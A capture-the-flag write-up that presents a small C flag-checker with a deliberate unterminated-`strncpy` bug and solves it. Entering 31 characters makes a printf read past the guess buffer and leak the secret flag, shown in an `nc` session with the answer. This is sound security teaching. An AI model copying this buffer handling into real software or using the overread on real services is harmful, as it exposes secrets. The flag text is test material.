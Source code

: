# Flag Checker, Baby

## Description

This program is perfectly safe, right? It only tells you what you already know. Check your flags:

`nc challs.rumble.host 53921`


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void check(const char *input, const char *secret_flag) {	
	char guess[32], flag[64];
	printf("sizeof(guess) -> %d\n", sizeof(guess));
	if (strlen(input) > sizeof(guess)) {
		puts("HACKER!");
		return;
	}

	strncpy(guess, input, sizeof(guess));
	strncpy(flag, secret_flag, sizeof(flag));
	if (!strcmp(guess, flag)) {
		printf("Well done! You got it: %s\n", flag);
	}
	else {
		printf("Wrong flag: %s\n", guess);
	}
}

int main(int argc, char** argv) {
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin, NULL, _IONBF, 0);

	char *secret_flag = getenv("FLAG");
	if (!secret_flag) {
		puts("Flag not found, contact challenge authors.");
		return 1;
	}

	char input[128];
	printf("Enter the flag: ");
	fgets(input, sizeof(input), stdin);
	check(input, secret_flag);

	return 0;
}
```

## Solution

Let's analyze the code

We need to bypass this `if`, so our input must be under 33 char

```c
if (strlen(input) > sizeof(guess)) {
    puts("HACKER!");
    return;
}
```

This means that we can insert 31 random character and then the `\n`, inserted when we press `enter`

After that this is made

```c
strncpy(guess, input, sizeof(guess));
strncpy(flag, secret_flag, sizeof(flag));
```

In the first `strncpy` all the char are copyed, `\0` inclued, but in this way the `\0` would go in the first cell of the `flag` variable and when the 2nd `strncpy` is called, this char is replaced.

So this printf should print `input + \n + flag`

```c
printf("Wrong flag: %s\n", guess);
```

Let's try to pass 31 char to the programs

```console
$ nc challs.rumble.host 53921
Enter the flag: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wrong flag: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
CSR{should_have_used_strlcpy_instead}
```

As expected we get the flag

#### **FLAG >>** `CSR{should_have_used_strlcpy_instead}`